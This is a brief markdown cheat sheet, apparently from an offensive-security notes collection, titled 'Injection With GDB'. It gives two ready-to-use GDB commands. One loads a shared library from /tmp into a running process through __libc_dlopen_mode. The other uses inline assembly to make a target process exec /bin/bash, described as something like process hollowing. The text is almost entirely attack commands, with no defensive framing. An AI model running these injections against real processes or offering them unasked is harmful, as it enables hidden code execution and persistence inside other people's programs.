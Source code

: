 # Injection With GDB

## Inject Shared Library

It is possible to load a shared library into a process using GDB.

```bash
compile __libc_dlopen_mode("/tmp/libx.so", 2)
```

## Inject Binary

Something like a process hollowing, it can be done openning GDB against a process just like done for injecting a shared library. Type the following code, chenging the path:

```bash
register char *x asm("%rdi") = "/bin/bash";asm("xor %rsi,%rsi; xor %rdx,%rdx; mov $59,%rax; syscall;");
```
